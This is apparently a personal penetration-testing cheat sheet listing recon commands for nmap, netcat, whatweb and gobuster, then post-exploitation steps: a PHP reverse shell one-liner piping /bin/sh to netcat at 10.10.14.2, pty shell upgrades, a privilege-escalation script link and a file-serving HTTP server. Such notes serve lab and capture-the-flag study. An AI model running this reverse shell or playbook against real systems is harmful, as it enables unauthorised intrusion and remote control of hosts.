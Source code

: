 ```yaml
---
id: phd6lr0llsyy9qcbykd4b25
title: Pentest opening
desc: ''
updated: 1673259996922
created: 1673238697340
---
```


## Nmap:

### [Nmap man pages](https://linux.die.net/man/1/nmap)

<table>
<tr><th>Function</th><th>Examples:</th></tr>
<tr><td>

|Flag: | What it does:|
|----------|----------|
|`-sV`| scan against the default top 1000 ports
|`--open`| scan only open ports|
|`-oA <filename>`| output all scan formats|
|`-v`| verbose output|
|`-p-`| full TCP port scan (65535)|
|`--script=<script_name>`|script scan|
|<li>`banner`|A simple banner grabber which connects <br>to an open TCP port and prints out anything <br>sent by the listening service within five seconds|
|<li>`http-enum`|Enumerates directories used by <br>popular web applications and servers|


</td><td>

|Full command:|
|----------|
|`nmap -sV --open -oA <filename> <ip address>`|
|**Quick scan**|
|`nmap -p- --open -oA <filename> <ip address>`|
|**Long scan - recommended in second terminal**|

</td></tr> </table>

## NetCat

### [NetCat man pages](https://linux.die.net/man/1/nc)

<table>
<tr><th>Function</th><th>Examples:</th></tr>
<tr><td>

|Flag: | What it does:|
|----------|----------|
|`-n`| do not do any DNS or service lookups on any specified addresses, <br>hostnames and ports (don't resolve)|
|`-v`| verbose|
|`-l`| listen for incoming connection rather than initiate a connection|

</td><td>

|Full command:|
|----------|
|`nc -nv <ip address> <port>`|
|Confirm banner|
|`nc -nvlp 80`|
|Listening shell on port 80|

</td></tr> </table>

## whatweb 

### [whatweb man pages](https://manpages.org/whatweb)

<table>
<tr><th>Function</th><th>Examples:</th></tr>
<tr><td>

|Flag: | What it does:|
|----------|----------|
|``| |
|``| |

</td><td>

|Full command:|
|----------|
|`whatweb <ip address>`|
|Identify web application in use|

</td></tr> </table>

## Gobuster

### [Gobuster man pages](https://linuxcommandlibrary.com/man/gobuster)

<table>
<tr><th>Function</th><th>Examples:</th></tr>
<tr><td>

|Flag: | What it does:|
|----------|----------|
|`dir`| use directory enumeration mode |
|`-u`| string, the target URL or Domain |
|`--wordlist` / `-w`| path to wordlist, recommended:<br> `/usr/share/wordlists/dirb/common.txt`  
|`-e`|print full URLs|

</td><td>

|Full command:|
|----------|
|`gobuster -e -u <ip address/URL> -w /usr/share/wordlists/dirb/common.txt`|
|Scan website, use common.txt wordlist and print the full <br>URLs of discovered paths|

</td></tr> </table>

## File upload testing

|File: | What it does/testing:|
|----------|----------|
|[test_php.php](/assets/files/test_php.php)|Tests if php file can be uploaded to web app|

## Reverse shells:

```php 
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?> 
``` 
## Upgrade reverse shell

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```
OR
```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Privilege escalation checks

|File: | What it does/testing:|
|----------|----------|
|[LinEnum.sh](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)|Automated privilege escalation checks|

## Start Python HTTP server
```python
sudo python3 -m http.server 8080
```